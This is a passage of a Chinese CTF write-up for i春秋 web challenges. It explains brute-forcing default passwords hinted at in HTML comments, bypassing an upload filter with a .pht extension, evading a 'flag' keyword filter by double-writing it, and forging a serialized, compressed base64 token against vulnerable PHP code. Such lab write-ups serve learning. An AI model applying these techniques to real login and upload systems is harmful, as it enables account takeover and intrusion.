/&gt;</span><br><span class="line">        &lt;br /&gt; &lt;br /&gt;</span><br><span class="line">        &lt;input type="submit" name="submit" value="登录" /&gt;</span><br><span class="line"></span><br><span class="line">        &lt;!-- 用户信息都在user.php里 --&gt;</span><br><span class="line">        &lt;!-- 用户默认默认密码为用户名+出生日期 例如:zhangwei1999 --&gt;</span><br><span class="line">    &lt;/form&gt;</span><br><span class="line">&lt;/center&gt;</span><br><span class="line">&lt;/body&gt;</span><br><span class="line">&lt;/html&gt;</span><br><span class="line">&lt;br /&gt;&lt;br /&gt;&lt;center&gt;</span><br></pre></td></tr></tbody></table>

重要的是这两句：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">&lt;!-- 用户信息都在user.php里 --&gt;</span><br><span class="line">&lt;!-- 用户默认默认密码为用户名+出生日期 例如:zhangwei1999 --&gt;</span><br></pre></td></tr></tbody></table>

查看`user.php`是空的，那就看一下`user.php.bak` ，发现可以下载下来，那么下载到本地我们看一下  
  
是所有的用户名，再加上给的提示 默认密码是用户名+出生日期 那么很明显了 这道题要用爆破，我们抓个包  
  
注意上边的`Attack type`，这个要选择我选的这个，意思是两个参数一起爆破  
`密码用姓名+1990，这个没办法只能试出来`  
通过爆破的结果可以看到有一个账户是`lixiuyun lixiuyun1990`  
  
那么登陆上去，是空的，查看源代码  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">&lt;!DOCTYPE html&gt;</span><br><span class="line">&lt;html&gt;</span><br><span class="line">&lt;head&gt;</span><br><span class="line">    &lt;meta charset="utf-8" /&gt;</span><br><span class="line">    &lt;title&gt;个人中心&lt;/title&gt;</span><br><span class="line">&lt;/head&gt;</span><br><span class="line">&lt;body&gt;</span><br><span class="line">&lt;center&gt;</span><br><span class="line">&lt;!-- 存在漏洞需要去掉  --&gt;</span><br><span class="line">&lt;!-- &lt;form action="" method="POST" enctype="multipart/form-data"&gt;</span><br><span class="line">    &lt;input type="file" name="file" /&gt;</span><br><span class="line">    &lt;input type="submit" name="submit" value="上传" /&gt;</span><br><span class="line">&lt;/form&gt; --&gt;</span><br><span class="line">&lt;/center&gt;</span><br><span class="line">&lt;/body&gt;</span><br><span class="line">&lt;/html&gt;</span><br></pre></td></tr></tbody></table>

注释里的东西是文件上传，那么我们只能在本地搭建一个这样的环境做测试  
在本地弄一个1.php的文件，代码如下：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">&lt;!DOCTYPE html&gt;</span><br><span class="line">&lt;html&gt;</span><br><span class="line">&lt;head&gt;</span><br><span class="line">    &lt;meta charset="utf-8" /&gt;</span><br><span class="line">    &lt;title&gt;个人中心&lt;/title&gt;</span><br><span class="line">&lt;/head&gt;</span><br><span class="line">&lt;body&gt;</span><br><span class="line">&lt;center&gt;</span><br><span class="line">&lt;!-- 存在漏洞需要去掉  --&gt;</span><br><span class="line">&lt;!-- &lt;form action="http://026c6f6870ec4ba2a443e1487cf09eca89966db584ff4053.game.ichunqiu.com/" method="POST" enctype="multipart/form-data"&gt;</span><br><span class="line">    &lt;input type="file" name="file" /&gt;</span><br><span class="line">    &lt;input type="submit" name="submit" value="上传" /&gt;</span><br><span class="line">&lt;/form&gt; --&gt;</span><br><span class="line">&lt;/center&gt;</span><br><span class="line">&lt;/body&gt;</span><br><span class="line">&lt;/html&gt;</span><br></pre></td></tr></tbody></table>

  
注意 form action要填写你的i春秋上边的题目地址

然后我们上传，其实就是一般的文件上传，我么上传一个图片，把后缀改成`.pht`就可以了  
上传成功后会看到这个东西  
  
那么直接在本地的环境上访问`http://026c6f6870ec4ba2a443e1487cf09eca89966db584ff4053.game.ichunqiu.com/view.php`  
出来一个超链接，点开是`file?`  
那么应该就很明显了，我们直接查看`url/view.php?file=flag`  
页面返回`filter "flag"`  
应该是过滤了`flag`  
那么用双写来绕过过滤  
`url/view.php?file=flaflagg`  
这样就看到了flag  


### [](#14-Login "14.Login")14.Login

> 题目名称：Login  
> 题目内容：加油，我看好你

首先进入题目，一个登陆框，需要输入账号密码



查看源代码：猛一看没啥有用的东西，其实往下拉一拉会看到好东西  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">&lt;!--  test1 test1  --&gt;</span><br></pre></td></tr></tbody></table>

  


那么就登陆吧：用户名和密码已经给了

登陆之后页面自动跳转了：  
<http://ca965ed9a1e142e4a7d95044336b258107b780911e6f40b0.game.ichunqiu.com/member.php>  
跳转到了这个页面，里面没啥东西



查看源代码也没有  
看一下响应头，发现了一个参数：`show:0`


然后就抓包改包呗：  
我们在包里随便找个地方加上这个参数：`show:1`  
然后发包会看到页面把源代码给我们返回了过来  
  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">	include 'common.php';</span><br><span class="line">	$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);</span><br><span class="line">	class db</span><br><span class="line">	{</span><br><span class="line">		public $where;</span><br><span class="line">		function __wakeup()</span><br><span class="line">		{</span><br><span class="line">			if(!empty($this-&gt;where))</span><br><span class="line">			{</span><br><span class="line">				$this-&gt;select($this-&gt;where);</span><br><span class="line">			}</span><br><span class="line">		}</span><br><span class="line"></span><br><span class="line">		function select($where)</span><br><span class="line">		{</span><br><span class="line">			$sql = mysql_query('select * from user where '.$where);</span><br><span class="line">			return @mysql_fetch_array($sql);</span><br><span class="line">		}</span><br><span class="line">	}</span><br><span class="line"></span><br><span class="line">	if(isset($requset['token']))</span><br><span class="line">	{</span><br><span class="line">		$login = unserialize(gzuncompress(base64_decode($requset['token'])));</span><br><span class="line">		$db = new db();</span><br><span class="line">		$row = $db-&gt;select('user=\''.mysql_real_escape_string($login['user']).'\'');</span><br><span class="line">		if($login['user'] === 'ichunqiu')</span><br><span class="line">		{</span><br><span class="line">			echo $flag;</span><br><span class="line">		}else if($row['pass'] !== $login['pass']){</span><br><span class="line">			echo 'unserialize injection!!';</span><br><span class="line">		}else{</span><br><span class="line">			echo "乱码";</span><br><span class="line">		}</span><br><span class="line">	}else{</span><br><span class="line">		header('Location: index.php?error=1');</span><br><span class="line">	}</span><br><span class="line"></span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

  
然后就是代码审计了，从代码中可以看到：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">需要满足 $login['user'] === 'ichunqiu'</span><br><span class="line">而user被$login = unserialize(gzuncompress(base64_decode($requset['token'])));处理过</span><br></pre></td></tr></tbody></table>

  
那么就给他反过来执行一遍：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">$a = array("user" =&gt; "ichunqiu");</span><br><span class="line">$a = base64_encode(gzcompress(serialize($a)));</span><br><span class="line">echo $a;</span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

  
得到了一串base64编码：`eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==`

然后我们在Cookie中加上token参数，将它放进去

  
得到flag
